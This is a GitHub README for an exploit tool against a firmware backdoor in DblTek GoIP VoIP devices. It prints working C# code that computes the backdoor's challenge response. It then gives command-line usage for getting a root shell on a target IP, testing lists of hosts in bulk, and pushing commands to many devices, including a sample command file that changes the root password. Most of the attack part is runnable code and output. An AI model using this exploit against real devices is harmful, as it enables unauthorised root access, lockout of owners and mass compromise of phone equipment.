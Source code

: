 # DblTekGoIPPwn

Tool to exploit challenge response system in vulnerable DblTek GoIP devices. Can generate responses to
specified challenges, test hosts for the vulnerability, run commands on vulnerable hosts, and drop
into a root shell on any vulnerable host.

## The Vulnerability

On March 2nd, 2017, Trustwave released a vulnerability that security researchers found in the DblTek
GoIP VoIP Phone. The vulnerability was a backdoor in the firmware for an account named 'dbladm'. When
a user entered this as their username in a telnet prompt, the system would present a challenge that when
followed with the right response, gave the user a root shell on the system.

The problem with such a challenge response system is that the devices are as secure as the algorithm for
generating the responses, which was reverse engineered from firmware binaries provided by DblTek. Using this
algorithm, a root shell can be aquired on ANY DblTek GoIP device.

Original Article: https://www.trustwave.com/Resources/SpiderLabs-Blog/Undocumented-Backdoor-Account-in-DBLTek-GoIP/

Using the description of the backdoor provided in the article, I was able to write what I believe to be
some of the first exploit code for this vulnerability. The core of this is of course the algorithm to
generate the response based on a given challenge. Here is a function to do this written in C#.

```C#
static string ComputeResponse(string challengeStr)
{
    int challenge = Convert.ToInt32(challengeStr.Substring(1)); // Get just the number after 'N'.

    string modified = (challenge + 20139 + (challenge >> 3)).ToString(); // Perform some dummy 1337 operations.

    byte[] buffer = new byte[64];
    // Copy the string into the first part of the buffer.
    for (int i = 0; i < modified.Length; i++)
        buffer[i] = (byte)modified[i];

    var md5 = MD5.Create();
    byte[] hash = md5.ComputeHash(buffer); // Calculate the MD5 of the buffer.

    StringBuilder sb = new StringBuilder(); // Will hold the results.
    // Take the unpadded hex value of the first six bytes of the MD5.
    for (int i = 0; i < 6; i++)
        sb.Append(hash[i].ToString("x"));

    return sb.ToString(); // Profit
}
```

## DblTekGoIPPwn Command Line Interface (CLI)

When DblTekPwn is ran without arguments, the help is displayed. This is the output:

```
USAGE: DblTekPwn.exe [MODE] [HOSTS] [OUTPUT]

[MODE]:
-c --compute-response [CHALLENGE]         Computes a response to the given challenge.
-r --root-shell                           Starts a root shell with the vulnerable host.
-s --send-commands    [COMMAND_FILE]      Sends commands from a file to vulnerable hosts.
-t --test                                 Tests hosts and determines if they are vulnerable.
-h --help                                 Displays this help and exits.

[HOSTS]:
-n --name             [IP]                Specifies a single IP address.
-f --file             [IP_FILE]           Specifies a file with IP\nIP\nIP.

[OUTPUT]:
-o --output           [OUTPUT_FILE]       Specifies an output file. Default stdin.
```

## Examples

### Getting a Root Shell on a Vulnerable System

DblTekGoIPPwn makes it easy to simply get a root shell on any vulnerable system. Simply run the
following command using the vulnerable IP.

```
DblTekPwn.exe --root-shell --name 192.168.1.1
```

You will see output that looks like this:
```
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.


Start login
do exec: /sbin/login
Login: dbladm
challenge: N1746203308
Password: ***********

```

From here you can simply begin entering commands.

### Calculating a Challenge Response

Say you simply wanted to calculate the response to a GoIP challenge ```N1746203308```. Simply
run the following command.

```
DblTekPwn --compute-response N1746203308
```

The output will be the response:
```
d6176d3aab2
```

### Checking a List of IPs

Say you wished to check ```list.txt``` of IPs for GoIPs that are vulnerable and send this output
to ```results.txt```. First make sure that the IPs are in format ```ip:port``` (port is default 23)
and that the IPs are seperated by a newline ```\n```. The following command could then be ran.

```
DblTekPwn.exe --test --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the IP is vulnerable.

### Sending Commands to a List of IPs

Say you had a list of commands (which is really a list of telnet inputs) in ```cmds.txt```
to send to ```list.txt``` of IPs and send the output to ```results.txt```. First make sure
that the IPs are in format ```ip:port``` (port is default 23) and that BOTH the IPs AND commands
are seperated by a newline ```\n``` in their respective files. The following command could then
be ran.

```
DblTekPwn.exe --send-commands cmds.txt --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

cmds.txt:
```
passwd root
toor
toor

exit
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the connection was successfully
made and the commands delivered.
